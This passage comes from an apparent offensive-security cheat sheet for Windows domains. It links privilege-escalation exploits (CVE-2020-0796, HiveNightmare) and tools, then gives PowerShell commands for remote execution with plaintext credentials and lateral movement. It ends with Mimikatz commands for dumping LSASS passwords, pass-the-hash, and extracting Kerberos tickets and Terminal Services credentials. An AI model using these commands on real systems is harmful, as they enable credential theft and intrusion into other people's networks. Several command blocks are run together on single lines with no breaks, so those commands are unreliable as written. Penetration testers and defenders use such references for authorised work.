     [PoC](https://github.com/danigargu/CVE-2020-0796)
    
- [CVE-2021-36934 (HiveNightmare/SeriousSAM)](https://github.com/cube0x0/CVE-2021-36934)
    

**Useful Local Priv Esc Tools**

- [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Privesc/PowerUp.ps1) Misconfiguration Abuse
- [BeRoot](https://github.com/AlessandroZ/BeRoot) General Priv Esc Enumeration Tool
- [Privesc](https://github.com/enjoiz/Privesc) General Priv Esc Enumeration Tool
- [FullPowers](https://github.com/itm4n/FullPowers) Restore A Service Account's Privileges

## **Lateral Movement**

### **PowerShell Remoting**

```
#Enable PowerShell Remoting on current Machine (Needs Admin Access)
Enable-PSRemoting

#Entering or Starting a new PSSession (Needs Admin Access)
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

### **Remote Code Execution with PS Credentials**

$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword) Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}

### **Import a PowerShell Module and Execute its Functions Remotely**

#Execute the command and start a session Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess

#Interact with the session Enter-PSSession -Session $sess

### **Executing Remote Stateful commands**

#Create a new session $sess = New-PSSession -ComputerName <NameOfComputer>

#Execute command on the session Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Check the result of the command to confirm we have an interactive session Invoke-Command -Session $sess -ScriptBlock {$ps}

### **Mimikatz / BetterSafetyKatz**

```
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg
```
